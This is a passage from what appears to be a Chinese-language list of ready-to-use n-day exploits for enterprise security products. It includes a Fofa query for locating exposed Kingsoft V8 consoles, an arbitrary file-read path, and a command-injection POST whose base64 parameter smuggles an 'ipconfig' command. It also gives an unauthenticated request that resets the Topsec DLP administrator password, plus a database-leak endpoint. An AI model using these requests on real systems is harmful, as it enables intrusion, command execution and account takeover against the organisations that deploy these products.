 **数据库信息泄露漏洞**
- POC | Payload | exp
    ```
    http://x.x.x.x/api/dbstat/gettablessize
    ```

#### 金山 V8 终端安全系统

> Fofa: title="在线安装-V8+终端安全系统Web控制台"

**任意文件读取漏洞**
- POC | Payload | exp
    ```
    /htmltopdf/downfile.php?filename=downfile.php
    ```

**pdf_maker.php 命令执行漏洞**
- 相关文章
    - [某终端安全系统Nday分析+复现](https://mp.weixin.qq.com/s/DJVjf0s5-8bnh-We3uD56A)

- POC | Payload | exp
    ```
    POST /inter/pdf_maker.php HTTP/1.1
    Content-Type: application/x-www-form-urlencoded

    url=IiB8fCBpcGNvbmZpZyB8fA%3D%3D&fileName=xxx
    ```

---

### 数据防泄漏系统

#### 天融信数据防泄漏系统

**越权修改管理员密码**
```
无需登录权限,由于修改密码处未校验原密码,且 /?module=auth_user&action=mod_edit_pwd 接口未授权访问,造成直接修改任意用户密码。 默认 superman 账户 uid 为 1。

POST /?module=auth_user&action=mod_edit_pwd

Cookie: username=superman;
uid=1&pd=Newpasswd&mod_pwd=1&dlp_perm=1
```
